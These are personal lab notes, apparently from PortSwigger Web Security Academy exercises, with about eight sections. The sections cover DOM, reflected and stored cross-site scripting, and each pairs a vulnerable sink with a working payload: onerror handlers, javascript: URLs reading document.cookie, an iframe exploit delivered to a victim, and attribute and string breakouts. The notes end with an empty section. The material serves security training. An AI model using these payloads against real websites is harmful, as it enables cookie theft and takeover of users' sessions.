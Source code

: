 ### DOM XSS in `document.write` sink using source `location.search`
```js
// see that my search string ends up in <img> tag:

<img src="/resources/images/tracker.gif?searchTerms=adsf" q7yoldkbi="">

// adjust search string to inject xss via <img> tag

sadf"><script>alert(1)</script>
```

### DOM XSS in `innerHTML` sink using source `location.search`
```js
// view-source / inspect element
// see that my search string ends up in <span> tag:

<span id="searchMessage">fake</span>

// break out
// key: force an error to trigger "onerror"

<img src=1 onerror=alert(1)>
<audio src/onerror=alert(2)>

// other key notes: it's totally ok to inject javascript as-is into <span> tags
```

### DOM XSS in jQuery anchor `href` attribute sink using `location.search` source
```js
// see that '/feedback?returnPath=/' returns HTTP response with "src" calling "jquery":

<script src="/resources/js/jquery_1-8-2.js"></script>
<div class="is-linkback">
	<a id="backLink">Back</a>
</div>
<script>
	$(function() {
		$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
	});
</script>

// see that a <href> tag is being built, using the input passed to "returnPath"
// try inject random chars to "returnPath":

/feedback?returnPath=asdf

// see that the resulting "Back" link leads to:

https://0af3007a032c23bcc10958b000a10065.web-security-academy.net/asdf

// now inject 

/feedback?returnPath=javascript:alert(document.cookie) 

// now the "Back" link simply reads:

javascript:alert(document.cookie)

// note: this uses the `javascript:` protocol to run text as JavaScript instead of opening it as a normal link
// sauce: https://riptutorial.com/html/example/2120/link-that-runs-javascript
```

### DOM XSS in jQuery selector sink `$()` using a hashchange event
```js
// vulnerable portion:

<script src="/resources/js/jquery_1-8-2.js"></script>
<script src="/resources/js/jqueryMigrate_1-4-1.js"></script>
<script>
	$(window).on('hashchange', function(){
		var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
		if (post) post.get(0).scrollIntoView();
	});
</script>

// exploit via iframe (deliver to victim):

<iframe src="https://0a8200b703a078abc312925a0003009d.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>

// test that "print()" does get called when this payload runs normally
// now deliver the payload
```

### Reflected XSS into attribute with angle brackets HTML-encoded [helpful but not direct sauce](https://www.secjuice.com/xss-arithmetic-operators-chaining-bypass-sanitization/)
```js
// normal "<h1>hola</h1>" injection becomes:

&lt;h1&gt;hola&lt;/h1&gt;

// try avoiding angular brackets altogether; study the environment closely
// notice that "hola" lands in a HTML attribute for an <input> tag:

<input type=text placeholder='Search the blog...' name=search value="hola">

// target that attribute; close it gracefully and inject an event

/?search="onmouseover="alert('hola')

// such that the <input> tag becomes:

<input type=text placeholder='Search the blog...' name=search value=""onmouseover="alert('hola')">
```

### Stored XSS into anchor `href` attribute with double quotes HTML-encoded
```js
// see the sink:

<a id="author" href="https://www.fake.com">fake</a>

// adjust "website" payload:

javascript:alert(1)

// now the href sink becomes:

<a id="author" href="javascript:alert('hola')">

// end of the day, it's due to lack of input validation on "website" field
```

### Reflected XSS into a JavaScript string with angle brackets HTML encoded
```js
// sink:

<script>
var searchTerms = 'asdf';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>

// break out of "encodeURIComponent()":

a'-alert('hola')-'

// sink becomes:

<script>
var searchTerms = 'a'-alert('hola')-'';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>

// turns out it's nothing to do with the "encodeURIComponent()" - we're targeting the "var searchTerms" instead
```

### DOM XSS in `document.write` sink using source `location.search` inside a select element
```

```

